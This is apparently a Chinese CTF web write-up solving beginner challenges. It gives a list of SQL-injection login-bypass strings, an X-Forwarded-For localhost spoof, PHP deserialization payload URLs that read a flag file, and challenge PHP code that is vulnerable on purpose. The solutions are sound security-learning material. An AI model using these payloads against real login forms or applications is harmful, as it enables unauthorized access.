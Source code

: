 ```yaml
---
title: Asuri_ctf WEB Write-up
urlname: Asuri_ctf-WEB-Write-up
date: 2020-10-12 16:58:25
updated: 
comments: false
tags: 
  - SQL注入
  - 反序列化
categories: 
  - Write-Up
permalink: 
---
```


by:gyy
<h2>[nuaactf2019]web签到</h2>
<h3>F12</h3>
题目地址：<a class="url" href="http://106.15.177.94:10001/" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10001/</a>

f12直接看源码
<h3>最终</h3>
问题解决：nuaactf{we1cOme_to_NuaAcTF}

<hr />
<h2>神奇的php</h2>
<h3>代码审计</h3>
题目地址：<a class="url" href="http://106.15.177.94:10017/" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10017/</a>

打开直接给源码
<pre><code class="language-php" lang="php"><?php
require('flag.php');//寮曞叆flag鍜宎bc鍙橀噺
foreach($_GET as $key => $value){
    $key=$value;
}
if($a==$abc)
{
    echo $flag;
}
show_source(__FILE__);
?>
</code></pre>
get直接收个a参数，a=abc就出flag，非常简单
<h3>最终</h3>
payload：./?a=abc

问题解决：Asuri{php_is_amazing}

<hr />
<h2>GET</h2>
<h3>怀疑asuri水题</h3>
题目地址：<a class="url" href="http://106.15.177.94:10019" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10019</a>

打开得源码
<pre><code class="language-php" lang="php">
<?php
include_once('flag.php');
//flag.php涓�$flag鍙橀噺
if (isset($_GET['ans'])) {
    if ($_GET['ans']==='hello_world') {
        echo $flag;
        echo '<br>';
    }
}
show_source(__FILE__);
?>

</code></pre>
不说了
<h3>最终</h3>
payload：./ans=hello_world

问题解决：Asuri{get_is_simple}

<hr />
<h2>管理员</h2>
<h3>sql注入</h3>
题目地址：<a class="url" href="http://106.15.177.94:10012/" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10012/</a>

打开提示登录管理员

尝试登录：<code>1' or 1=1 #</code>

直接登录成功了...

后来尝试，还有多种payload
<h3>最终</h3>
payload：
<pre><code>' or 0=0 #
' or 1=1 or ''='
x' or 1=1 or 'x'='y
a' or 'a' = 'a
anything' OR 'x'='x
'%20or%20''='
'%20or%20'x'='x
' or 0=0 #
' or 1 --'
' or 1=1 or ''='
hi' or 'a'='a
' or username like '%
' or 1=1 or ''='
' or ''='
x' or 1=1 or 'x'='y
</code></pre>
大同小异，都记录下来，日后学习

问题解决：Asuri{Web_1s_easy}

<hr />
<h2>管理员2</h2>
<h3>同上</h3>
一样，payload登录提示要从本地登录
加个<code>X-Forwarded-For: 127.0.0.1</code>即可
<h3>最终</h3>
问题解决：Asuri{1m_Adm1n}

<hr />
<h2>php序列化</h2>
<h3>序列化</h3>
<h4>告诉我靶场题目有问题???我淦</h4>
题目地址：<del><a class="url" href="http://106.15.177.94:10014" target="_blank" rel="noopener noreferrer">http://106.15.177.94:10014</a></del>
新地址：<a class="url" href="http://desperadoccy.club:39016" target="_blank" rel="noopener noreferrer">http://desperadoccy.club:39016</a>

有时间再写
<h3>最终</h3>
payload：
<code>http://desperadoccy.club:39016/?exp=O:10:%22FileReader%22:4:{s:8:%22Filename%22;S:4:%22\66lag%22;s:5:%22start%22;i:0;s:10:%22max_length%22;i:5;}</code>
&&
<code>http://desperadoccy.club:39016/?exp=O:10:%22FileReader%22:4:{s:8:%22Filename%22;S:4:%22\66lag%22;s:5:%22start%22;i:6;s:10:%22max_length%22;i:13;}</code>

问题解决：Asuri{php_serial1ze}

<hr />
